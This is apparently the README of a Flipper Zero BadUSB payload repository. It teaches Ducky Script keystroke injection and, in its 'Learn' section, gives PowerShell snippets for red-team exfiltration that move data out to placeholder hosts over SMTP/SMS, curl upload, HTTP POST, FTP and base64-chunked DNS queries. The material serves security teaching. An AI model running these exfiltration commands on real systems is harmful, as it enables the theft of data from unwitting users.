 <div align="center">

  <img src="assets/logo.png" alt="logo" width="200" height="auto" />
  <h1>Flipper Zero BADUSB Repo</h1>
  
  <p>
    A Collection of Flipper Zero BADUSB Payloads
  </p>
</div>

<br />

<!-- Table of Contents -->
# Table of Contents 📒

- [About the Project](#about-the-project-🌟)
  * [Rubber Ducky](#rubber-ducky-🥚)
  * [Shop](#shop-🛍️)
- [Getting Started](#getting-started-🧰)
  * [Variables](#variables-🗝️)
  * [Installation](#installation)
  * [Deployment](#deployment-🚩)
  * [Learn](#learn-🎓)
- [Roadmap](#roadmap-🧭)
- [Contact](#contact-🤝)
- [Acknowledgements](#acknowledgements-💎)

  

<!-- About the Project -->
## About the Project 🌟
This Repository is to assist others in their pentesting adventures in addition to helping those get their feet wet for Ducky Scripts 🐥

<!-- Rubber Ducky -->
### Rubber Ducky 🥚
A USB Rubber Ducky is a keystroke injection tool that looks like a USB flash drive. When plugged in, it executes pre-programmed scripts that mimic keyboard input, allowing for quick automation of tasks such as penetration testing and security assessments.

## Shop 🛍️
<details>
  <summary>Hak5</summary>
  <ul>
    <li><a href="https://shop.hak5.org">Hak5 Shop</a></li>
    <li><a href="https://shop.hak5.org/products/usb-rubber-ducky">Rubber Ducky</a></li>
    <li><a href="https://payloadhub.com/blogs/payloads">Hak5's Payload Hub</a></li>
    <li><a href="https://docs.hak5.org/hak5-usb-rubber-ducky">Official Ducky Script Documentation</a></li>
  </ul>
</details>

<details>
  <summary>Flipper Zero</summary>
  <ul>
    <li><a href="https://shop.flipperzero.one">Flipper Zero Shop</a></li>
    <li><a href="https://docs.flipper.net/bad-usb">Flipper Zero's Badusb Documentation</a></li>
  </ul>
</details>

<details>
<summary>Digispark</summary>
  <ul>
    <li><a href="https://www.amazon.com/digispark/s?k=digispark">Amazon Digispark</a></li>
    <li><a href="https://blog.spacehuhn.com/badusb-digispark">Digispark Badusb</a></li>
    <li><a href="https://github.com/CharlesTheGreat77/DigiPass">Digispark Badusb Payloads</a></li>
  </ul>
</details>

<details>
<summary>External Flipper Resources</summary>
  <ul>
    <li><a href="https://github.com/jamisonderek">Mr. Derek Jamison</a></li>
  </ul>
</details>

<!-- Prerequisites -->
### Prerequisites 🚬
This project (and the Flipper Zero as a whole) uses *Ducky Script version 1*. Additionally, most payloads are tested in a *Windows 10* environment. Further testing will be need on *Windows 11* environment security standards.

<!-- Getting Started -->
## Getting Started 🧰
This is a VERY brief explanation of ducky script in my own words. One may refer to this <a href="https://gist.github.com/methanoliver/efebfe8f4008e167417d4ab96e5e3cac">link</a> if in doubt of supported commands.
<details>
    <summary>REM</summary>
  <ul>
    <li>REM is used as a comment, and does not perform ANY keystroke injection. It got the name REM from the word REMark (remark).</li>
  </ul>
  <pre><code>REM This is a comment</code></pre>
</details>

<details>
    <summary>STRING</summary>
  <ul>
    <li>STRING injects injects a series of keystrokes. Interpreting lowercase, uppercase, etc. automatically with Flipper Zero's implmentation.</li>
  </ul>
  <pre><code>STRING I Love You!
ENTER</code></pre>
  Output:
  <pre><code>I Love You!</code></pre>
  <ul>
    <li>we'll cover the ENTER command right after..</li>
  </ul>
</details>

<details>
    <summary>ENTER</summary>
  <ul>
    <li>ENTER does just that.. presses the return (enter) button! This is one of many supported commands which can be found <a href="https://gist.github.com/methanoliver/efebfe8f4008e167417d4ab96e5e3cac">here</a>!</li>
  </ul>
  <pre><code>STRING I Love You!
ENTER</code></pre>
  Output:
  <pre><code>I Love You!</code></pre>
</details>

<details>
    <summary>DELAY</summary>
  <ul>
    <li>DELAY creates a momentary pause in miliseconds. This is VERY useful when keystrokes are too fast for the target computer to interpret. If your working payload is failing.. this is probably the cause (ADD MORE DELAY).</li>
  </ul>
  <pre><code>STRING hey!
ENTER
DELAY 1000
STRING how are you?
ENTER
</code></pre>
  Output:
  <pre><code>hey!
[delays for 1 second]
how are you?</code></pre>
</details>

<details>
    <summary>Additional Commands</summary>
  <ul>
    <li>Modifiers: <pre><code>CTRL
CONTROL
SHIFT
ALT
GUI
WINDOWS</code></pre></li>
    <li>Combos: <pre><code>CTRL-ALT
CTRL-SHIFT
ALT-SHIFT
ALT-GUI
GUI-SHIFT</code></pre></li>
    <li>Cursors: <pre><code>DOWNARROW
DOWN
LEFTARROW
LEFT
RIGHTARROW
RIGHT
UPARROW
UP</code></pre></li>
    <li>Control and navigation: <pre><code>ENTER, BREAK, PAUSE, CAPSLOCK, DELETE, BACKSPACE, END, ESC, ESCAPE, HOME, INSERT, NUMLOCK, PAGEUP, PAGEDOWN, PRINTSCREEN, SCROLLOCK, SPACE, TAB, MENU, APP, SYSRQ</code></pre></li>
    <li>Functions: <pre><code>F1, F2, F3, F4, F5, F6, F7, F8, F9, F10, F11, F12</code></pre></li>
  </ul>
</details>

<details>
    <summary>Your first payload (Windows)</summary>
  <ul>
    <li>Lets create a simple payload to open notepad and display.</li>
  </ul>
  <pre><code>GUI r
STRING notepad.exe
ENTER
DELAY 2000
STRING hello world!
ENTER
</code></pre>
  Output: Opens the windows run box with GUI r [GUI is a modifier], and types in notepad.exe, which opens notetpad and types:
  <pre><code>hello world!</code></pre>
  <ul>
    <li>Again, you can find modifiers, combos, cursors, etc. <a href="https://gist.github.com/methanoliver/efebfe8f4008e167417d4ab96e5e3cac">here</a></li>
  </ul>
</details>



<!-- Variables -->
### Variables 🗝️
To run most scripts (outside of PlugNPlay folder), one must populate the variables inside the payload (.txt) file. All variables will be clearly stated with ```%CHANGE_ME%```

Examples:
```
discord_webook = %CHANGE_ME%
```
```
smtp_server = %CHANGE_ME%
```

<!-- Download -->
# Installation
<details>
    <summary>Install BADUSB Repository 🖥️</summary>
    <details>
        <summary>Windows Install 🪟</summary>
            <ul>
                <li>Download the zip and extract the contents in your preffered directory.</li>
            </ul>
            <ul>
                <img src="assets/download.png" alt="logo" width="auto" height="auto" />
            </ul>
    </details>
    <details>
        <summary>Linux Download 🖥️</summary>
        <ul>
            <li>In any terminal:</li>
            <pre><code>git clone https://github.com/CharlesTheGreat77/BADUSB</code></pre>
        </ul>
    </details>

</details>


<!-- Deployment -->
## Deployment 🚩

To deploy the payloads, one must edit the payload (if required) by changing the variables accordingly in the *.txt* file(s) of choice. 

Copy the payloads in the badusb folder in the flipper zero BADUSB directory.


<!-- Payload Development -->
## Learn 🎓
These are brief powershell concepts which covers just about whatever you need for red teaming.
<details>
    <summary>Exfiltration Methods</summary>
  <ul>
    <li>SMTP and/or SMS</li>
  </ul>

```powershell
$hello_world = "Hello World!" # exfiltrate data
$send_to = "%SEND_TO%" # could be the email used below, another email, or a phone number
$smtp_server = "%SMTP_SERVER%" # smtp.gmail.com
$smtp_username = "%SMTP_USERNAME%" # gmail account [example@gmail.com]
$token = "%TOKEN%" # gmail token/smtp password
$SMTPInfo = New-Object Net.Mail.SmtpClient($smtp_server, 587); $SMTPInfo.EnableSsl = $true; $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential($smtp_username, $token); $ReportEmail = New-Object System.Net.Mail.MailMessage; $ReportEmail.From = $smtp_username; $ReportEmail.To.Add($send_to); $ReportEmail.Body = "Flipper Report: $hello_world"; $SMTPInfo.Send($ReportEmail)
```
Phone Number Setup for *send_to* variable:
    
    Format: <phonenumber>@smsgateway
    example: 9992221111@tmomail.net
SMS Gateways for Service Providers can be found <a href="https://gist.github.com/methanoliver/efebfe8f4008e167417d4ab96e5e3cac">here</a>!

  <ul>
    <li>File Transfer with curl:</li>
  </ul>

```powershell
curl.exe -F "file1=@filename.txt" <end_point>
```
  <ul>
    <li>HTTP POST request:</li>
  </ul>

```powershell
$content = Get-Content %FILE_TO_EXFIL% # output.txt
Invoke-WebRequest -Uri http://<http_server> -Method POST -Body $content
```
Exfiltrate files and send the contents via a HTTP post request.

  <ul>
    <li>FTP File Upload:</li>
  </ul>

```powershell
$fileName = "%FILENAME%"
$ftpUrl = "%FTP_URL%"
$ftpPassw = "%FTP_PASSWORD%"
$sampleData = "Sample data for exfiltration test"
Set-Content -Path $fileName -Value $sampleData
$creds = Get-Credential -Credential $ftpPassw
Invoke-WebRequest -Uri $ftpUrl -Method Put -InFile $fileName -Credential $creds
```
Upload files via FTP to an existing FTP server
  <ul>
    <li>Exfiltrate over DNS:</li>
  </ul>

```powershell
$dnsServer = "%DNS_SERVER%"
$exfiltratedData = "String of exfiltrated data"
$chunkSize = 63 # look at the sizes of record types
$encodedData = [System.Text.Encoding]::UTF8.GetBytes($exfiltratedData)
$encodedData = [Convert]::ToBase64String($encodedData)
$chunks = $encodedData -split "(.{$chunkSize})"
foreach ($chunk in $chunks) {
    $dnsQuery = $chunk + "." + $dnsServer
    Resolve-DnsName -Name $dnsQuery
    Start-Sleep -Seconds 5
}
```

</details>

<!-- Roadmap -->
## Roadmap 🧭

* [ ] Update Learn section in README
* [ ] Update filesystem hierarchy
* [ ] Update Payload list

<!-- Contact -->
## Contact 🤝

Dicord: DoobTheGoober

Projects: [github](https://github.com/CharlesTheGreat77)


<!-- Acknowledgments -->
## Acknowledgements 💎
I want to give some honor to specific individuals regardless of contribution for payload creation or sheer knowledge and motivation!

 - [Rocket God](https://github.com/RocketGod-git)
 - [Kavitate](https://github.com/Kavitate)
 - [Derek Jamison](https://github.com/jamisonderek)
 - [Redd](https://github.com/InfoSecREDD)
